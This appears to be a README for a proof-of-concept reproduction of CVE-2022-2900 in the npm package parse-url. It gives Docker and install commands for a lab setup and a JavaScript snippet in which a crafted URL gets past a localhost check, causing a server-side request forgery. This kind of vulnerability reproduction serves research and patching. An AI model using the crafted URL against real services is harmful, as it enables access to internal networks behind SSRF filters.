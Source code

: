 ### CVE-2022-2900

### PoC Links 
[Huntr.dev](https://huntr.dev/bounties/1b4c972a-abc8-41eb-a2e1-696db746b5fd/)

### Docker Build and Run Command
```shell
docker build -t cve-2022-2900-poc . 
docker run -itd --name CVE-2022-2900-POC cve-2022-2900-poc 
docker exec -it CVE-2022-2900-POC /bin/bash
```

### PoC Reproduce Command
```shell
cd /poc
# 安装存在漏洞的依赖
npm init -y
npm install --save parse-url@7.0.0
# 运行poc.js
node poc.js
```

### Description
可以观察到url解析错误，解析出来的属性错误，可能会触发SSRF漏洞等，例如：
```javascript
import parseUrl from "parse-url";
import fetch from 'node-fetch';

var parsed = parseUrl("http://nnnn@localhost:808:/?id=xss")
// SSRF，会跳转访问到localhost:808/
if (parsed.resource == "localhost") {
    console.log("internal network access is blocked")
} else {
    const response = await fetch('http://' + parsed.resource + parsed.pathname);
    console.log(response)
}
```



